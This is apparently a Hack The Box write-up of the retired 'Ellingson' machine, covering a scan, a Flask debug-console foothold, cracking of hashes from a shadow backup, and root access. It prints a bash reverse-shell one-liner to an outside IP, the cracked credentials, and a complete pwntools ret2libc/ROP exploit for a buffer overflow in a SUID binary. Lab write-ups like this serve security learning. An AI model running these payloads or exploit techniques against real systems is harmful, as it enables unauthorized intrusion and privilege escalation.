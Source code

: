 ```yaml
---
layout: post
title: HTB - Ellingson
date: 2025-03-25 08:53 -0400
---
```


{{ 'builder' | get_machine_avatar | raw }}

# nmap

```bash
~/workspace/projects/htb/retired_machines/ellingson » ~/dotfiles/htb/nmap.sh $(cat ip.txt) | tee nmap.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-05 12:10 -04
Nmap scan report for 10.10.10.139
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49e8f12a8062de7e0240a1f430d288a6 (RSA)
|   256 c802cfa0f2d85d4f7dc7660b4d5d0bdf (ECDSA)
|_  256 a5a995f54af4aef8b63792b89a2ab466 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-title: Ellingson Mineral Corp
|_Requested resource was http://10.10.10.139/index
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-05 12:11 -04
```

- no .git
- no robots.txt
- default nginx page 404

## main website
flask debug mode is active `http://10.10.10.139/articles/'`. So we get a shell pretty easily.
![flask debug](/assets/img/ellingson1.png)
```python
import subprocess; subprocess.check_output("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'", shell=True)
```

## priv esc

There are 3 more users with shells
```bash
theplague:x:1000:1000:Eugene Belford:/home/theplague:/bin/bash
hal:x:1001:1001:,,,:/home/hal:/bin/bash
margo:x:1002:1002:,,,:/home/margo:/bin/bash
duke:x:1003:1003:,,,:/home/duke:/bin/bash
```

Doesn't look like its running on docker. port 8888 is the flask server. 80 is probably the next step.
```bash
hal@ellingson:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1349/python3
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

weird suid binary called `garbage`, gives an unauthorized message
![unauthorized](/assets/img/ellingson2.png)

`/var/backups/shadow.bak` looks interesting.

```bash
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
```

cracking with `hashcat -a 0 ./hash.txt ~/wordlists/rockyou.txt -m 1800` gives:

```bash
theplague::password123
margo:iamgod$08
```

## priv esc 2

margo gives the user flag:
```bash
margo@ellingson:~$ cat user.txt
80215***************************
```

Now we get a password prompt when using the `garbage` binary.
![password prompt](/assets/img/ellingson4.png)

Reversing it shows the password: `N3veRF3@r1iSh3r3!`. Doesn't work in any of the other users. There is also a buffer overflow on the prompt with `gets`.
![hardcoded password](/assets/img/ellingson3.png)

I'm not very good at this but I have an idea of what to do.
- leak libc
- rop chain
- call system

For leaking libc we have a `print_hex` function, we overwrite the return value and then the next func gets leaked?

It's way simpler actually, we just use a pointer from the `got` table and print it with `puts` or with `print_hex`. I forgot that `puts` and `printf` take a pointer and was trying to pass actual values to it.

```python
#!/usr/bin/env python3

from pwn import *

context(os = 'linux', arch = 'amd64')
libc = ELF("./libc.so.6", checksec=False)
elf = ELF(
    "./garbage",
    checksec=False,
)

context.binary = elf
context.log_level = 'debug'

def pad(char, qt):
    return char.encode() * qt

def pop_rdi(data):
    # 0x000000000040179b : pop rdi ; ret
    return p64(0x0040179b) + data

def pop_rbp(data):
    return p64(0x00401239) + data

def pop_rsi(data):
     # : pop rsi ; pop r15 ; ret
    return p64(0x00401799) + data + (b"\x00"*8)

def pop_rsp(data):
    # 0x0000000000401795 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
    return p64(0x00401795) + data + (b"\x00"*8) + (b"\x00"*8) + (b"\x00"*8)

def add_rsp8():
    return p64(0x0000000000401012)

payload = (
    pad("A", 136)
    + pop_rdi(b"")
    + p64(elf.got['puts'])
    + p64(elf.symbols['puts'])
    + p64(elf.symbols['main'])
)

shell = ssh(user='margo', host='10.10.10.139', password='iamgod$08')
p = shell.run("/bin/bash")
p.sendline("/usr/bin/garbage")

p.recvuntil(b"password:")
p.sendline(payload)
p.recvuntil(b"denied.\n")

leaked_puts = u64(p.recv()[0:6] + b"\x00\x00")
libc_base = leaked_puts - libc.symbols["puts"]
libc.address = libc_base

rop = ROP([libc])
rop.setuid(0x0)
rop.system(next(libc.search(b'/bin/sh\x00')))

p.sendline(pad("A", 136) + rop.chain())
p.recvuntil(b"denied.\n")
p.interactive()
```

```bash
$ cat /root/root.txt
370e2***************************
```
